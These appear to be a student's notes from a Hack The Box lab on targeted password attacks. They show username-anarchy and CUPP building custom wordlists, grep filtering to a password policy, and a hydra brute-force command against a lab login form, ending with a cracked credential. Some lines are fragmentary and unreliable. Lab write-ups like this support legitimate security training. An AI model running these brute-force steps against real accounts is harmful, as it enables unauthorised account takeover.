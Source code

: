 
`rockyou` or `SecLists`
some scenarios, this approach can be inefficient and time-consuming
especially when targeting specific individuals or organizations with unique password or username patterns.

Thomas Edison not in == `xato-net-10-million-usernames-dup.txt` == problem


```
ocial media profiles, company directories, or even leaked data, to create a focused and highly relevant set of potential passwords and usernames. This laser-sharp approach minimizes wasted effort and maximizes the chances of cracking the target account.
```

## Username Anarchy

```shell-session
AhmaDb0x@htb[/htb]$ ./username-anarchy Jane Smith > jane_smith_usernames.txt
```


## CUPP
password

(Common User Passwords Profiler)
![[Pasted image 20250328234519.png]]


```shell-session
AhmaDb0x@htb[/htb]$ sudo apt install cupp -y
```

```bash
AhmaDb0x@htb[/htb]$ cupp -i   
```
```shell-session
[+] Saving dictionary to jane.txt, counting 46790 words.
```

password policy.

- Minimum Length: 6 characters
- Must Include:
    - At least one uppercase letter
    - At least one lowercase letter
    - At least one number
    - At least two special characters (from the set `!@#$%^&*`)

```bash
AhmaDb0x@htb[/htb]$ grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```

```bash
AhmaDb0x@htb[/htb]$ hydra -L jane_smith_usernames.txt -P jane-filtered.txt 94.237.59.147 -s 48426 -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
```

94.237.59.147:48426

jane   password: 3n4J!!